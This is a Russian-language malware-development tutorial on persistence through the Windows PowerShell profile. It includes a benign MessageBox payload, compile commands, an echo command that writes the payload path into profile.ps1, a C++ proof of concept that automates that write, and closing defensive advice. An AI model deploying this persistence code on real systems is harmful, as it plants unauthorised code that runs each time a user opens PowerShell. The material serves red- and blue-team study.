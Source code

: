 \newpage
\subsection{77. Разработка вредоносного ПО: закрепление (persistence) - часть 11. Профиль PowerShell. Простой пример на C++.}

الرَّحِيمِ الرَّحْمَٰنِ للَّهِ بِسْمِ 

![pers](./images/70/2022-09-20_08-06.png){width="80%"}    

Этот пост является результатом моего собственного исследования одного из интересных методов закрепления вредоносного ПО: через профиль PowerShell.    

### профиль PowerShell

Профиль PowerShell - это скрипт PowerShell, который позволяет системным администраторам и пользователям настраивать свою среду и выполнять определённые команды при запуске сессии Windows PowerShell.     

Скрипт профиля PowerShell хранится в папке `WindowsPowerShell`:    

![pers](./images/70/2022-09-20_08-29.png){width="80%"}    

Добавим следующий код в файл профиля текущего пользователя, который будет выполняться при каждом запуске консоли PowerShell пользователем:

`Z:\2022-09-20-malware-pers-11\hack.exe`    

Я продемонстрирую этот метод на практическом примере, чтобы всё стало понятно.    

### практический пример

Сначала создадим наш "вредоносный" файл:     

```cpp
/*
hack.cpp
evil app for windows
persistence via powershell profile
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/09/20/malware-pers-11.html
*/
#include <windows.h>
#pragma comment (lib, "user32.lib")

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, 
LPSTR lpCmdLine, int nCmdShow) {
  MessageBox(NULL, "Meow-meow!", "=^..^=", MB_OK);
  return 0;
}
```

Как обычно, это просто "meow-meow" messagebox.    

Компилируем:    

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

![pers](./images/70/2022-09-20_08-07.png){width="80%"}    

Запускаем на машине жертвы для проверки корректности:    

![pers](./images/70/2022-09-20_09-03.png){width="80%"}    

Теперь применяем этот простой "трюк":   

```powershell
echo Z:\2022-09-20-malware-pers-11\hack.exe > \
"%HOMEPATH%\Documents\windowspowershell\profile.ps1"
```

И наконец, запускаем PowerShell:    

```powershell
powershell -executionpolicy bypass
```

![pers](./images/70/2022-09-20_08-16.png){width="80%"}    

![pers](./images/70/2022-09-20_08-18.png){width="80%"}    

Как видно, наш вредоносный код выполняется при запуске PowerShell, и родительским процессом для messagebox является PowerShell. =^..^=    

Я создал простой PoC-код для автоматизации этого процесса:    

```cpp
/*
pers.cpp
windows persistence via Powershell profile
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/09/20/malware-pers-11.html
*/
#include <windows.h>
#include <stdio.h>
#include <strsafe.h>
#include <iostream>

int main(int argc, char* argv[]) {
  char path[MAX_PATH];
  char *homepath = getenv("USERPROFILE");
  char pspath[] = "\\Documents\\windowspowershell";
  char psprofile[] = "\\profile.ps1";
  char evil[] = "Z:\\2022-09-20-malware-pers-11\\hack.exe";
  DWORD evilLen = (DWORD)strlen(evil);

  StringCchCopy(path, MAX_PATH, homepath);
  StringCchCat(path, MAX_PATH, pspath);
  BOOL wd = CreateDirectoryA(path, NULL);
  if (wd == FALSE) {
    printf("unable to create dir: %s\n", path);
  } else {
    printf("successfully create dir: %s\n", path);
  }

  StringCchCat(path, MAX_PATH, psprofile);
  HANDLE hf = CreateFile(
    path,
    GENERIC_WRITE,
    0,
    NULL,
    CREATE_NEW,
    FILE_ATTRIBUTE_NORMAL,
    NULL
  );

  if (hf == INVALID_HANDLE_VALUE) {
    printf("unable to create file: %s\n", path);
  } else {
    printf("successfully create file: %s\n", path);
  }

  BOOL wf = WriteFile(hf, evil, evilLen, NULL, NULL);
  if (wf == FALSE) {
    printf("unable to write to file %s\n", path);
  } else {
    printf("successfully write to file evil path: %s\n", evil);
  }

  CloseHandle(hf);
  return 0;
}
```

Логика проста: этот скрипт просто создает папку профиля, если ее нет, затем создает файл профиля и обновляет его.    

### демонстрация

Давайте посмотрим, как это работает. Компилируем наш PoC:   

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

![pers](./images/70/2022-09-20_08-07_1.png){width="80%"}    

Запускаем его на машине жертвы:    

```powershell
.\pers.exe
```

![pers](./images/70/2022-09-20_08-09.png){width="80%"}    

![pers](./images/70/2022-09-20_08-11.png){width="80%"}    

А теперь запускаем сеанс PowerShell:        

![pers](./images/70/2022-09-20_08-51.png){width="80%"}    

Если проверим через Process Hacker:     

![pers](./images/70/2022-09-20_08-53.png){width="80%"}    

`powershell.exe` снова является родительским процессом, как и ожидалось.     

Как видно, всё работает идеально! =^..^=    

Однако есть один нюанс. Если PowerShell запускается без режима обхода политики выполнения, этот метод закрепления не сработает:    

![pers](./images/70/2022-09-20_09-05.png){width="80%"}    

Кроме того, существует четыре места, в которых можно злоупотребить профилем PowerShell, в зависимости от имеющихся привилегий:   

```powershell
$PROFILE | select *
```

![pers](./images/70/2022-09-20_09-08.png){width="80%"}    

Хранение произвольных инструкций в скрипте профиля PowerShell предоставляет множество возможностей для выполнения кода. Чтобы избежать зависимости от запуска PowerShell пользователем, можно использовать запланированное задание, которое запускает PowerShell в определённое время.      

### способы защиты

Принудительное выполнение только подписанных PowerShell-скриптов. Подписывайте профили, чтобы избежать их модификации. Также можно полностью отказаться от профилей PowerShell, если они не нужны, используя флаг `-No-Profile`.    

Этот метод закрепления используется группой [Turla](https://attack.mitre.org/groups/G0010/) в реальных атаках.    

Надеюсь, этот пост поможет специалистам синей команды лучше понять данную технику и добавит новый инструмент в арсенал красных команд.

[Microsoft PowerShell profiles](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_profiles?view=powershell-7.2)       
[MITRE ATT&CK. Event Triggered Execution: PowerShell Profile](https://attack.mitre.org/techniques/T1546/013/)     
[Turla](https://attack.mitre.org/groups/G0010/)     
[исходный код на github](https://github.com/cocomelonc/meow/tree/master/2022-09-20-malware-pers-11)    
